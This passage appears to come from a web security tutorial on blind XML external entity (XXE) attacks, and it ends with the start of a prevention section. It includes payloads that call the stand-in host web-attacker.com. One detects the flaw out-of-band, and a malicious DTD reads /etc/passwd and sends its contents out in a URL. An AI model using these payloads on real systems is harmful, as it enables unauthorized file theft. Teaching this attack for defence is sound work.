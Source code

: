 This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

### Exploiting Blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
* Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
* Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.

## How to prevent XXE vulnerabilities

Virtually all XXE vulnerabilities arise because the application's XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The easiest and most effective way to prevent XXE attacks is to disable those features.
